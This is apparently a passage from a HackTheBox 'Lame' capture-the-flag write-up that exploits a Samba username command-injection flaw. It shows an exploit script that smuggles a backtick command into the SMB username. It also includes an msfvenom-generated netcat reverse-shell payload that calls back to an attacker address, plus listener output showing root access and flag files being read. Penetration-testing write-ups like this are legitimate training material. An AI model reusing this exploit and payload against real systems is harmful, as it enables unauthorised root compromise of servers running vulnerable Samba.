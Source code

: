 ```c

buf =  ""
buf += "FILL PAYLOAD HERE"
buf += "FILL PAYLOAD HERE"
buf += "FILL PAYLOAD HERE"
buf += "FILL PAYLOAD HERE"
buf += "FILL PAYLOAD HERE"
buf += "FILL PAYLOAD HERE"
buf += "FILL PAYLOAD HERE"
buf += "FILL PAYLOAD HERE"


username = "/=`nohup " + buf + "`"
password = ""
conn = SMBConnection(username, password, "SOMEBODYHACKINGYOU" , "METASPLOITABLE", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

We have to generate our ```shellcode``` using ```msfvenom``` which will be our payload in the exploit script to trigger a reverse shell

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.8 LPORT=6789 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 88 bytes
Final size of python file: 440 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6c"
buf += b"\x63\x6f\x69\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31\x30"
buf += b"\x2e\x31\x34\x2e\x38\x20\x36\x37\x38\x39\x20\x30\x3c"
buf += b"\x2f\x74\x6d\x70\x2f\x6c\x63\x6f\x69\x20\x7c\x20\x2f"
buf += b"\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d\x70\x2f"
buf += b"\x6c\x63\x6f\x69\x20\x32\x3e\x26\x31\x3b\x20\x72\x6d"
buf += b"\x20\x2f\x74\x6d\x70\x2f\x6c\x63\x6f\x69"
```

Copy this shellcode in the exploit script and start running it with ```netcat``` listener to get the ```reverse shell```

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Lame]
└─$ python samba.py 10.10.10.3                                                           

┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 6789                                                  1 ⨯
listening on [any] 6789 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 54632
id
uid=0(root) gid=0(root)
whoami
root
ls /home/
ftp
makis
service
user
cat /home/makis/user.txt
<---USER FLAG--->
cat /root/root.txt
<---ROOT FLAG--->
```
